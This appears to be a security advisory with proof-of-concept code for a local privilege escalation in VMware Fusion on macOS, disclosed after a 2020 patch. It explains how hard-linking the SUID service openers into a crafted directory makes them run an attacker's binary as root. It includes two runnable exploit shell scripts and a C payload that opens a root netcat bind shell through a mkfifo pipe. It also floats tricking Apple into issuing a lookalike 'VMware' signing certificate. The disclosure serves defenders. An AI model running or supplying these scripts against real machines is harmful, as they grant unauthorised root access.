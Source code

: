 Local Privilege Escalation via VMWare Fusion

Overview:
A directory traversal vulnerability in VMware Fusion's SUID binaries can allow
an attacker to run commands as the root user.

Tested Versions:
* VMware Fusion 10.1.3 (9472307) on macOS 10.13.6
* VMware Fusion 11.0.0 (10120384) on macOS 10.14.1
* VMware Fusion 11.0.2 (10952296) on macOS 10.14.1
* VMware Fusion 11.5.0 (14634996) on macOS 10.15.1
* VMware Fusion 11.5.1 (15018442) on macOS 10.15.1

Exercising:
1) Ensure the VMware Fusion services are not running. If open, quit the VMware
   Fusion GUI.
2) Run one of the exploit script (exploit_fusion.sh or exploit_usb.sh). They
   will remain running until manually stopped via CTRL-c. The exploit will start
   a netcat listener as root on TCP port 3333.
3) Connect to the netcat listener: nc 127.0.0.1 3333

Details:
This vulnerability is a directory traversal bug inside of VMware Fusion. Several
of the programs included in VMware Fusion rely on the their path on disk to find
other libraries, helper utilities, and service daemons. Two such instances of
this code pattern in SUID programs can be found in the "Open VMware Fusion
Services" executable and the "Open VMware USB Arbitrator Service" executable.
These programs try to open the service programs by looking for the files:

Open VMware Fusion Services:
$DIRECTORY_WITH_SUID_EXECUTABLE/../../../Contents/Library/services/VMware Fusion Services
Open VMware USB Arbitrator Service:
$DIRECTORY_WITH_SUID_EXECUTABLE/../../../Contents/Library/services/VMware USB Arbitrator Service

While ordinarily this is fine, as any attempt to copy the programs will not copy
the SUID ownership of the file and any attempt to the move the programs will
fail without root access. Furthermore symbolic links will not trick the programs
into using the new location. However, on macOS unprivileged users can create
hard links to SUID executables, which will trick the programs. Thus, by creating
an adequate directory layout and hard linking to the SUID programs, we can trick
them into running an executable of our choice as the root user. The included
exploit_usb.sh and exploit_fusion.sh scripts setup the correct directory
structure and hard link, compile the payload, and run the linked program in
order to start a netcat listener as root on TCP port 3333.

In addition to the two SUID executables listed above, the SUID executable
"vmware-authd" is also vulnerable to this bug. vmware-authd tries to load two
libraries, libcrypto and libssl, from the incorrect directory. However, the two
libraries must be signed by apple or with an apple distributed signing
certificate from an organization containing the word "VMware". As such, this bug
is harder to exploit in vmware-authd. Depending on how strict Apple's developer
verification process is, it may be possible to fool Apple into granting a
matching certificate by hiding VMware within a phrase, such as with a
certificate for "Never Mind Where cloud services inc (NVMware Inc)".

One limitation to this vulnerability is that these two vulnerable service
openers will not try to open their services if the service is already running.
Thus, the exploit will not work if the "VMware USB Arbitrator Service" and
"VMware Fusion Services" services are already running. Thus, if the VMware
Fusion GUI is open, this vulnerability cannot be exploited. However, closing the
GUI will stop the services associated with the vulnerable service openers and
make the vulnerability once again exploitable. In contrast, the library
injection attack is not subject to these restrictions (but requires the
appropriate certificate).

As a side note, the vulnerable code is also used in VMware Workstation on Linux.
However, Linux does not allow an unprivileged user to create hard links to files
they do not own. As such, this bug is not exploitable in VMware Workstation on
Linux.

Timeline:
2019.11.12 Reported to VMware
2019.12.18 VMware confirms they can reproduce the issue
2019.12.24 Asked for status update, were told we'd get an update in early Jan
2020.01.08 Requested status update, were told fix scheduled for April 2020
2020.01.15 Called VMware to discuss
2020.01.21 Follow up meeting with VMware to discuss
2020.03.17 VMware releases patch & public disclosure













## exploit_fusion.sh
```
#!/bin/sh

# Remake the necessary folder structure
rm -rf a Contents
mkdir -p Contents/Library/services/
mkdir -p a/b/c/

# Build our payload
clang payload.c -o "Contents/Library/services/VMware Fusion Services"

# Create a hard link to the VMware SUID opener program
ln /Applications/VMware\ Fusion.app/Contents/Library/services/Open\ VMware\ Fusion\ Services a/b/c/linked

# Run the linked program, which causes it to be confused about the path, and
# launch our payload.  Additionally if our payload exits, VMware will relaunch
# it
a/b/c/linked
```
## exploit_fusion.sh EOF


## exploit_usb.sh
```
#!/bin/sh

# Remake the necessary folder structure
rm -rf a Contents
mkdir -p Contents/Library/services/
mkdir -p a/b/c/

# Build our payload
clang payload.c -o "Contents/Library/services/VMware USB Arbitrator Service"

# Create a hard link to the VMware SUID opener program
ln /Applications/VMware\ Fusion.app/Contents/Library/services/Open\ VMware\ USB\ Arbitrator\ Service a/b/c/linked

# Run the linked program, which causes it to be confused about the path, and
# launch our payload.  Additionally if our payload exits, VMware will relaunch
# it
a/b/c/linked
```
## exploit_usb.sh EOF


## payload.c
```
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char**argv) {
	setuid(0);
	system("rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 3333 > /tmp/f");
	return 0;
}
```
## payload.c EOF